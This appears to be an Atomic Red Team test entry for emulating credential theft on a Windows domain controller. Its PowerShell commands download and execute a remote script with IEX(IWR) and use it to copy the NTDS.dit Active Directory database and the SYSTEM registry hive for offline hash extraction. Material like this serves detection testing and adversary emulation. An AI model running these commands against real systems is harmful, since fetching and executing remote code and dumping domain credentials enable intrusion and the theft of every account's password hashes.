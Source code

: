 
<br/>



## Atomic Test #11 - Copy NTDS.dit in low-level NTFS acquisition via fsutil
This test is intended to be run on a domain Controller.
UnderlayCopy is a PowerShell utility for low-level NTFS acquisition and dumping protected, locked system artifacts (for example: SAM, SYSTEM, NTDS.dit, registry hives, and other files that are normally inaccessible while Windows is running).

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| extract_path | Path for extracted NTDS.dit | path | C:&#92;Windows&#92;Temp|



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/kfallahi/UnderlayCopy/refs/heads/main/UnderlayCopy.ps1' -UseBasicParsing)
Underlay-Copy -Mode Metadata -SourceFile C:\Windows\NTDS\ntds.dit -DestinationFile #{extract_path}\ntds.dit
Underlay-Copy -Mode Metadata -SourceFile C:\Windows\System32\config\SYSTEM -DestinationFile #{extract_path}\SYSTEM_HIVE
```


#### Cleanup Commands:
```powershell
remove-item "#{extract_path}\ntds.dit" -force -erroraction silentlycontinue
remove-item "#{extract_path}\SYSTEM_HIVE" -force -erroraction silentlycontinue
```




<br/>
